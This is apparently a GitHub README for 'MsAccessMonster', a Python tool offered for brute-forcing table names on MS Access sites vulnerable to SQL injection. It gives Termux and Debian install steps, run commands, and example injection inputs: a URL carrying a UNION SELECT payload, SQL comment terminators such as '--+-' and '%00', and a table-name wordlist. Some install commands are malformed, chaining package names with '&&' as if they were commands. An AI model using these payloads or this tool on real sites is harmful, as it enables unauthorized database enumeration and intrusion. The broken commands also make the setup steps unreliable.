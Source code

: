 ## MsAccessMonster
A fast tool for bruteforcing the Ms Access SQL Injection vulnerable sites with 3k+ possible table names.

### Compatible devices
- As this tool is completely written in python, it will run in all devices including, Termux and Debian based OS ( Ubuntu, Kali etc. ).

### Installation & running process
- For Termux ( Android )
```
pkg update && pkg upgrade -y
```
```
pkg install git && python3
```
```
pip install requests
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```
- For Debian based OS
```
sudo su
```
```
apt-get update && apt upgrade -y
```
```
apt-get install python3 && python3-pip && git
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```

### Tool running commands ( for every devices & OS )
```
cd MsAccessMonster
```
```
python3 ms.py
```
Then, you will be asked for a Ms Access Vulnerable Site. Give it like this,
```
https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from
```
Or,
```
https://www.everythingvuln1.com/vuln.php?id=1'and 0 union select 1,2,3,4 from
```
***Note :: Use the word "from" after the 1st input or, the tool won't work properly***.

Then, you will be asked to give the comment of the query. This can be anything. Depends on the website. Such as,
```
--
--+-
%00
;%00
```
After giving the perfect comment, you will be told to give your table_name's list or, word list. By default, we have given a default word list which contains 3k+ table names. If you want to use that put your command like this,
```
tables.txt
```
If you want to give your custom word list put the path then. For example,
```
/sdcard/tables.txt
```
Now, hit enter and wait for the matched response. For example,
```
[$] Site link: https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from ..... %00
```
Here, ```...``` is the correct table names

